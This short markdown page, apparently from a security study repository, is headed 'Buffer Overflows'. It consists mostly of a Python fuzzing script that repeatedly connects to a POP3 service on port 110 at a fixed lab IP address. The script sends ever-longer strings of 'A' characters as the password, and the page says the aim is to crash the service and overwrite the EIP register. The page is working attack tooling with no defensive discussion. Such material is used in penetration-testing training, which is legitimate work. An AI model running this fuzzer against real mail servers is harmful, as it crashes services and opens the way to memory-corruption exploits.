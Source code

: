 ## Buffer Overflows 

#### fuzzing.py 
This is desigend to crash a service in order to try to overwrite the EIP register

```
#!/usr/bin/python
import socket

buffer=["A"]
counter=100

while len(buffer) <=30:
	buffer.append("A"*counter)
	counter=counter+200

for string in buffer:
	print "Fuzzing Pass with %s bytes" % len(string)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(("10.11.8.145", 110))
	s.recv(1024)
	s.send("USER test\r\n")
	s.recv(1024)
	s.send("PASS " + string + "\r\n")
	s.send("QUIT\r\n")
	s.close()
```
